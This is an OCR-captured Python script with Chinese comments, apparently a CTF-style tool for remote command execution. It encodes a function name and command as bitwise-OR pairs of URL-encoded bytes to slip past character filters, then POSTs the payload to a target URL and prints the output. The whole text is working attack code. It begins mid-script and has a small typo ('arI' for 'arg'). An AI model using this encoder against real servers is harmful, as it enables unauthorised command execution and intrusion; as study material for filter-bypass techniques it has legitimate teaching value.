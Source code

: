 ```python
                # 将 i 和 j 进行按位或运算，得到一个新的字符 k。
                k = i | j
                # 如果新生成的字符 k 在可显示字符的 ASCII 范围内（32-126），则执行以下操作。
                if k >= 32 and k <= 126:
                    # 将 i和j 转换成两位的十六进制形式，并添加 '%' 前缀。
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    # 将生成的字符 chr(k) 以及对应的十六进制形式添加到 result 字符串中。
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('rce.txt', 'w')
    f.write(result)

# 定义一个函数，根据输入的命令在生成的 rce.txt 中进行匹配，返回相应的字符组合。
def action(arg):
    s1=""
    s2=""
    #对于输入的参数 arg 中的每个字符执行以下循环
    for i in arI:
        f=open("rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                #将当前行的第3到第5个字符（十六进制表示的第一个字符）添加到字符串 s1 中。
                s1+=t[2:5]
                #将当前行的第7到第9个字符（十六进制表示的第二个字符）添加到字符串 s2 中。
                s2+=t[6:9]
                break
        f.close()
    #构造一个字符串 output，形如 ("s1"|"s2")，其中 s1 和 s2 是之前匹配到的字符组合的十六进制表示。
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)
    
#是脚本的主函数，包含整个脚本的主要逻辑。
def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()

```

